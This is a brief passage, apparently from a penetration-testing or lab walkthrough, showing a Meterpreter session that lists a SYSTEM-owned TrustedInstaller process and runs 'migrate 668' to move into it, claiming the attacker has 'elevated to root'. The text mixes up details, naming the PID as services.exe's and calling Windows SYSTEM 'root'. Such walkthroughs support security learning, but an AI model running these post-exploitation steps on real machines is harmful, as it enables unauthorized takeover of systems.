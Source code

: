 ```
 2984  668   TrustedI  x64   0        NT AUTHORI  C:\Windows\
             nstaller                 TY\SYSTEM   servicing\T
             .exe                                 rustedInsta
                                                  ller.exea
```

Now we run the migrate command with the PID of services.exe
```
meterpreter > migrate 668
[*] Migrating from 2528 to 668...
[*] Migration completed successfully.
```

Now we have succesfully elevated to root. Et Voila!
